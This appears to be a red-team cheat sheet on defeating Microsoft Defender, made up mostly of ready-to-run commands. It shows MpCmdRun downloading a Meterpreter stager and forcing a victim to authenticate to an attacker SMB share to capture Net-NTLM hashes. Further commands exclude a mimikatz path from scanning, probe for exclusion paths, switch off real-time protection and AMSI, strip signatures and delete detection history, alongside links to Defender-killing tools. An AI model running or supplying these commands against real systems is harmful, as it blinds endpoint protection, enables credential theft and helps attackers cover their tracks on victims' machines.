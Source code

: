 ```yaml
---
description: Microsoft Defender
---
```


# Defender

- [https://github.com/0xsp-SRD/MDE_Enum](https://github.com/0xsp-SRD/MDE_Enum)

Download stager without triggering Defender to scan it:

```
Cmd > "C:\Program Files\Windows Defender\MpCmdRun.exe" -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\user\music\met.exe
```

Coerce the victim machine to reach the attacker (to steal Net-NTLM):

```
Cmd > "C:\Program Files\Windows Defender\MpCmdRun.exe" -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```




## Exclusions

- [https://blog.fndsec.net/2024/10/04/uncovering-exclusion-paths-in-microsoft-defender-a-security-research-insight/](https://blog.fndsec.net/2024/10/04/uncovering-exclusion-paths-in-microsoft-defender-a-security-research-insight/)
- [https://github.com/Friends-Security/SharpExclusionFinder](https://github.com/Friends-Security/SharpExclusionFinder)

Add path to exclusions:

```
PS > $mimi = "C:\Users\user\music\mimi\x64\mimikatz.exe"
PS > Add-MpPreference -ExclusionPath $mimi [-AttackSurfaceReductionOnlyExclusions $mimi]
```

Test path for an exclusion:

```
PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -Scan -ScanType 3 -File "C:\folder_to_check\|*"
```




## Disable Defender

- [https://github.com/mandiant/commando-vm#pre-install-procedures](https://github.com/mandiant/commando-vm#pre-install-procedures)
- [https://github.com/swagkarna/Defeat-Defender-V1.2](https://github.com/swagkarna/Defeat-Defender-V1.2)
- [https://github.com/APTortellini/DefenderSwitch](https://github.com/APTortellini/DefenderSwitch)
- [https://github.com/dosxuz/DefenderStop](https://github.com/dosxuz/DefenderStop)
- [https://gist.github.com/fiercebrute/46e0636c0eaf72dcd3df4e280b6792d6](https://gist.github.com/fiercebrute/46e0636c0eaf72dcd3df4e280b6792d6)
- [http://www.wxxy-sec.com/?p=154](http://www.wxxy-sec.com/?p=154)

- gpedit.msc > *Administrative Templates* > *Windows Components* > *Microsoft Defender Antivirus* > *Real-time Protection* > *Turn off real-time protection* > *Enabled* ✔
- gpedit.msc > *Administrative Templates* > *Windows Components* > *Microsoft Defender Antivirus* > *Turn off Microsoft Defender Antivirus* > *Enabled* ✔

Disable real-time protection (proactive):

```
PS > Set-MpPreference -DisableRealTimeMonitoring $true
```

Disable scanning all downloaded files and attachments, disable AMSI (reactive):

```
PS > Set-MpPreference -DisableIOAVProtection $true
```

Remove signatures (if Internet connection is present, they will be downloaded again):

```
PS > cd "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0"
PS > .\MpCmdRun.exe -RemoveDefinitions -All
Or
Cmd > "%PROGRAMFILES%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

Clear threats history manually:

```
Cmd > del /S "C:\ProgramData\Microsoft\Windows Defender\Scans\History\Service\DetectionHistory\*"
```




## Lower Token Integrity

- [https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/](https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/)
- [https://github.com/plackyhacker/SandboxDefender](https://github.com/plackyhacker/SandboxDefender)
- [https://github.com/pwn1sher/KillDefender](https://github.com/pwn1sher/KillDefender)
- [https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools)




## Windows Security Center API (WSC)

- [https://blog.es3n1n.eu/posts/how-i-ruined-my-vacation/](https://blog.es3n1n.eu/posts/how-i-ruined-my-vacation/)
- [https://github.com/es3n1n/defendnot](https://github.com/es3n1n/defendnot)
